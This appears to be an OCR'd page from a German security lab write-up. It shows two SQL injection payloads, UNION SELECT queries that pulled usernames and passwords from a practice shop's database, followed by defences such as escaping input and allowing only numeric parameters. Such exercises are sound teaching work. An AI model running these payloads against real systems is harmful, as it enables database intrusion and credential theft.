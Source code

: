 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{verbatim}
'UNION SELECT NULL,user,password,NULL FROM secureuserdata.accessdata WHERE user='jack';#
\end{verbatim}

eingegeben, und siehe da, als Tool Name erschien der Benutzer "`jack"' und als Tool Beschreibung sein Passwort "`london"'. Alternativ hätten wir auch die einzelnen Tabelleneinträge wieder mit dem Limit Befehl durchgehen können, wie z.B.:

\begin{verbatim}
'UNION SELECT NULL,user,password,NULL FROM secureuserdata.accessdata LIMIT 1,1;#
\end{verbatim}

das Ergebnis für den Benutzer "`paul"' gewesen wäre.


\subsection*{c)}

Maßnahmen für die Sicherung des Shops gegen solche Angriffe wie in Teil b) wären einfach gewesen, wenn man die Werte, die über POST an die "`details\_tools.php"' Seite gegeben wurden, überprüft hätte. So hätte man z.B. alle ' Zeichen (oder für andere Angriffe auch weitere Sonderzeichen) escapen können. Hierfür gibt es in php bereits vorgefertigte Befehle, falls man das nicht per Hand machen will (davon wäre sowieso abzuraten, da man sonst Läuft einige sicherheitskritische Lücken nicht zu schließen).

In diesem Szenario werden allerdings auch einzig und allein die Werte 1 bzw. 2 für den Parameter "`tool"' übergeben. Selbst bei mehr als nur den 2 Tools wäre in diesem Parameter nur eine Zahl erlaubt, so dass man alle ungültigen Zeichen, also alles, was keine Zahl ist, hätte entfernen können. Auch die gesamte Abfrage zu verwerfen, bevor sie als wirkliche SQL-Anfrage an die Datenbank gegangen wäre, wäre denkbar.

\section*{Aufgabe 2}

\subsection*{a)}

Versand: Do.28 November 15.54 von peter\_bernd1@hell.sex nach peter\_bernd2@hell.sex.
\end{document}
